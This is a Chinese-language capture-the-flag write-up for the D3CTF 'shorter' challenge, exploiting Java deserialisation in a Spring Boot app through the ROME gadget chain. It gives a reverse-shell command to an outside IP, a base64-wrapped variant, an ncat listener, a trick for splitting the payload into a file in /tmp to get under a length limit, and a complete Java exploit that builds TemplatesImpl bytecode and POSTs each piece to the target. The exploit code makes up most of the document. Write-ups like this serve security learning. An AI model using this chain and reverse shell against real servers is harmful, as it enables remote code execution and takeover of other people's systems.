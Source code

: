 # shorter

根据dockerfile的信息，flag文件在根目录，目标就是读取这个flag文件。

![avatar](img/d3ctf_shorter_0.png)

用jadx反编译jar文件，可以发现这是一个简单的SpringBoot后端，只有一个controller。

![avartar](img/d3ctf_shorter_1.png)

看到readObject，说明能够反序列化，由于没有回显，只能RCE反弹shell。找找能利用的依赖包，在pom.xml中可以看到rome。

![avartar](img/d3ctf_shorter_2.png)

先做准备工作，在路由器里设置端口映射，再在电脑里开一个监听端口:
```ncat -lvvp 2224```

![avartar](img/d3ctf_shorter_3.png)
![avartar](img/d3ctf_shorter_4.png)

反弹shell的命令为`bash -i >& /dev/tcp/123.123.12.12/2224 0>&1`，其中的123.123.12.12是我家的ip地址。但是Java的exec不支持这种重定向的行为，所以需要先用Base64编码，再用`bash -c`来运行：

```/bin/bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjMuMTIzLjEyLjEyLzIyMjQgMD4mMQo=}|{base64,-d}|{bash,-i}```

使用ysoserial可以生成payload：

```java -jar ysoserial.jar ROME '/bin/bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjMuMTIzLjEyLjEyLzIyMjQgMD4mMQo=}|{base64,-d}|{bash,-i}' | base64```

但是后端限制的表单内容长度为1956，上面这段命令生成的payload长度达到了4512，所以得想办法减少长度。

在<https://xz.aliyun.com/t/10824>这篇文章中找到了一些缩小长度的方法，结合<https://c014.cn/blog/java/ROME/ROME%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.html>手动构造payload来尽可能缩小长度。最后缩减到了2032，但还是达不到要求。主要问题在于这个命令太长了。

既然命令太长，那就分成几个部分来发，把这一串命令拆开分别写入一个文件，最后直接运行这个文件就好。每次写入都是新的一行，所以需要在每一行后面加一个反斜杠，例如：
```
{echo,YmFzaCA\
taSA+JiAvZGV2\
L3RjcC8xMjMuM\
TIzLjEyLjEyLz\
IyMjQgMD4mMQo=}\
|{base64,-d}|{b\
ash,-i}
```

也就是说需要分别运行以下的命令：
```
mkdir /tmp/a
/bin/bash -c echo >/tmp/a/a
/bin/bash -c echo '{echo,\'>>/tmp/a/a
/bin/bash -c echo 'YmFzaC\'>>/tmp/a/a
/bin/bash -c echo 'AtaSA+\'>>/tmp/a/a
/bin/bash -c echo 'JiAvZG\'>>/tmp/a/a
/bin/bash -c echo 'V2L3Rj\'>>/tmp/a/a
/bin/bash -c echo 'cC8xMj\'>>/tmp/a/a
/bin/bash -c echo 'MuMTIz\'>>/tmp/a/a
/bin/bash -c echo 'LjEyLj\'>>/tmp/a/a
/bin/bash -c echo 'EyLzIy\'>>/tmp/a/a
/bin/bash -c echo 'MjQgMD\'>>/tmp/a/a
/bin/bash -c echo '4mMQ==\'>>/tmp/a/a
/bin/bash -c echo '}|{bas\'>>/tmp/a/a
/bin/bash -c echo 'e64,-d\'>>/tmp/a/a
/bin/bash -c echo '}|{bas\'>>/tmp/a/a
/bin/bash -c echo 'h,-i}'>>/tmp/a/a
/bin/bash /tmp/a/a
```

![avartar](img/d3ctf_shorter_5.png)

这里需要注意的是写入文件的位置，之所以写到/tmp目录中是因为这里有写入权限，不能写到一个没有权限的位置，我在这个问题上也纠结了很久才发现的，毕竟没有回显只能靠蒙。

对每个payload发一次post，最后如果成功了，就能看到监听端口接收到的shell。

![avartar](img/d3ctf_shorter_6.png)

EXP:
```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import java.io.*;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.ArrayList;
import java.util.HashMap;
import com.sun.syndication.feed.impl.ObjectBean;
import javassist.*;
import org.apache.hc.client5.http.classic.methods.HttpPost;
import org.apache.hc.client5.http.entity.UrlEncodedFormEntity;
import org.apache.hc.client5.http.impl.classic.CloseableHttpClient;
import org.apache.hc.client5.http.impl.classic.CloseableHttpResponse;
import org.apache.hc.client5.http.impl.classic.HttpClients;
import org.apache.hc.core5.http.NameValuePair;
import org.apache.hc.core5.http.io.entity.EntityUtils;
import org.apache.hc.core5.http.message.BasicNameValuePair;
import org.objectweb.asm.ClassReader;
import org.objectweb.asm.ClassVisitor;
import org.objectweb.asm.ClassWriter;
import org.objectweb.asm.Opcodes;
import javax.xml.transform.Templates;
import java.util.Base64;
import java.util.List;


public class Rome {
    public static void main(String[] args) throws Exception {
        String bash = "bash -i >& /dev/tcp/123.123.12.12/2224 0>&1";
        String bash64 = Base64.getEncoder().encodeToString(bash.getBytes());
        String shell = "{echo," + bash64 + "}|{base64,-d}|{bash,-i}";
        ArrayList<String> shell_split = new ArrayList<>();
        int split_n = 6;
        int last;
        for (int i=0; i<shell.length(); i+=split_n) {
            if (i + split_n > shell.length())
                last = shell.length();
            else
                last = i + split_n;
            shell_split.add(shell.substring(i, last));
        }
        execCMD(getEXP("mkdir /tmp/a"));
        execCMD(getEXP("/bin/bash -c echo${IFS}>/tmp/a/a"));
        for (int i=0; i<shell_split.size(); ++i) {
            String part = shell_split.get(i);
            if (i != shell_split.size()-1)
                part = part + "\\\\";
            execCMD(getEXP("/bin/bash -c echo${IFS}'" + part + "'>>/tmp/a/a"));
        }
        execCMD(getEXP("/bin/bash /tmp/a/a"));
    }

    private static String getEXP(String cmd) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.makeClass("E");
        ctClass.setSuperclass(pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));
        CtConstructor constructor;
        constructor =
                CtNewConstructor.make(" public E() {\n" +
                        "       java.lang.Runtime.getRuntime().exec(\"" + cmd + "\");\n" +
                        "   }", ctClass);
        ctClass.addConstructor(constructor);
        byte[] bytes = ctClass.toBytecode();
        ctClass.defrost();

        ClassReader cr = new ClassReader(bytes);
        ClassWriter cw = new ClassWriter(ClassWriter.COMPUTE_FRAMES);
        int api = Opcodes.ASM5;
        ClassVisitor cv = new ShortClassVisitor(api, cw);
        int parsingOptions = ClassReader.SKIP_DEBUG | ClassReader.SKIP_FRAMES;
        cr.accept(cv, parsingOptions);
        byte[] out = cw.toByteArray();

        TemplatesImpl templates = new TemplatesImpl();
        Field field1 = templates.getClass().getDeclaredField("_bytecodes");
        field1.setAccessible(true);
        field1.set(templates, new byte[][]{out});
        Field field2 = templates.getClass().getDeclaredField("_name");
        field2.setAccessible(true);
        field2.set(templates, "t");

        ObjectBean objectBean1 = new ObjectBean(Templates.class, templates);
        ObjectBean objectBean2 = new ObjectBean(ObjectBean.class, objectBean1);

        HashMap<Object, Object> map = new HashMap<>();
        Field field4 = map.getClass().getDeclaredField("size");
        field4.setAccessible(true);
        field4.set(map, 2);
        Class nodeC = Class.forName("java.util.HashMap$Node");
        Constructor nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);
        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, objectBean1, objectBean1, null));
        Array.set(tbl, 1, nodeCons.newInstance(1, objectBean2, objectBean2, null));
        Field fieldtable = map.getClass().getDeclaredField("table");
        fieldtable.setAccessible(true);
        fieldtable.set(map, tbl);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(map);
        byte[] sss = byteArrayOutputStream.toByteArray();
        objectOutputStream.close();

        String exp = Base64.getEncoder().encodeToString(sss);
        return exp;
    }

    private static void execCMD(String exp) throws Exception {
        CloseableHttpClient httpClient = HttpClients.createDefault();
        HttpPost httpPost = new HttpPost("http://shorter.d3ctf-challenge.n3ko.co/hello");
        List<NameValuePair> params = new ArrayList<NameValuePair>();
        params.add(new BasicNameValuePair("baseStr", exp));
        httpPost.setEntity(new UrlEncodedFormEntity(params));
        CloseableHttpResponse response = httpClient.execute(httpPost);
        System.out.println(EntityUtils.toString(response.getEntity()));
        httpClient.close();
    }
}

```
